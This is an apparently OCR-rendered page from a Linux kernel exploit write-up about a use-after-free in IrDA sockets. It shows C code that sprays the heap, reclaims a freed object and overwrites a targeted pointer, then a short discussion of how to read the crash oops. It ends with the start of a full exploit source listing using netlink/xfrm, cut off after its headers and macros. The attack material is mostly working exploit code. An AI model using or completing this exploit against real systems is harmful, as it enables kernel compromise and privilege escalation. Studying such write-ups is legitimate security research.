 ```c
addr = target_addr;
void *x = &addr;
memset(buf,0xcc,88);
*(void **)(buf+8) = (void*)addr;
printf("[+] Spray memory and take control of the old freed object\n");
spray_heap(buf,88,200);
usleep(10000);
printf("[+] Allocating new object to overwrite the targetted pointer\n");
/* Now inserting sock 4 obj would trigger your first oops message on
* dereferencing q_prev (0xdeadbeef) on the enqueue_first() path
* (*queue)->q_prev->q_next = element
*
* where queue head is pointing to the sprayed object.
*
* The rest is not relevant.
*/
irda_bind(fd4,4,0x30,0x3,"c");
printf("[+] Freeing object again \n");
close(fd4);
sleep(1);
printf("[+] Fill the last object with payload \n");
memset(buf,0xcc,88);
spray_heap(buf,88,200);
usleep(1000);
```

Here is a crash PoC showing that we’ve overwritten net_sysctl_root.set_ownership” doesn’t make sense based on the produced oops message showing that there was an attempt to execute NX memory address. What this oops message shows is that you’ve overwritten some function ptr (mostly due to luck) with address of the new ias_object (when binding) and then tried to execute that pointer in the original path.

**Exploit**<br>
```c
#define _GNU_SOURCE
#include <stdarg.h>
#include <stdint.h>
#include <stdio.h>
#include <string.h>
#include <time.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <linux/netlink.h>
#include <linux/xfrm.h>
#include <linux/irda.h>
#include <fcntl.h>
#include <sched.h>
#include <unistd.h>
#define NLA_LENGTH(len)					\
        (NLA_ALIGN(sizeof(struct nlattr)) + (len))
#define NLMSG_TAIL(nmsg)						\
        ((struct nlattr *) (((void *) (nmsg)) + NLMSG_ALIGN((nmsg)->nlmsg_len)))
#define NLA_DATA(nla)					\
        ((void*)(((char*)(nla)) + NLA_LENGTH(0)))
char *saddr = "1111111122222222";
char *daddr = "3333333344444444";
struct sockaddr_nl addr;
struct req_newae {
	struct nlmsghdr n;
```